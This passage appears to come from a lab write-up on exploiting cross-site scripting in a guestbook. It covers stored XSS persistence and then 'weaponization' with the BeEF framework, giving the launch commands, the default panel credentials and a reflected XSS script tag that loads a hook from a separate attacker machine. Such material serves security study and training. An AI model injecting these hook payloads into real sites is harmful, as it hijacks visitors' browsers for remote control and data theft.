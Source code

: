 ![Stored Payloads Success](xxs_stored.png)
*Successful stored XSS payloads executing in guestbook*

#### Critical Advantages
- **Persistence:** Payloads execute for every visitor
- **Wider Impact:** Affects multiple users automatically
- **Stealth Factor:** No suspicious URLs required

## Advanced Weaponization: BeEF Integration

### Framework Setup

**BeEF Initialization (Attack Machine):**
```bash
cd /usr/share/beef-xss/
sudo ./beef
```

**Control Panel Access:** `http://127.0.0.1:3000/ui/panel`
**Credentials:** beef/beef

### Reflected XSS Weaponization - SUCCESS

**Hook Payload (Victim):**
```javascript
<script src="http://192.168.56.102:3000/hook.js"></script>
```
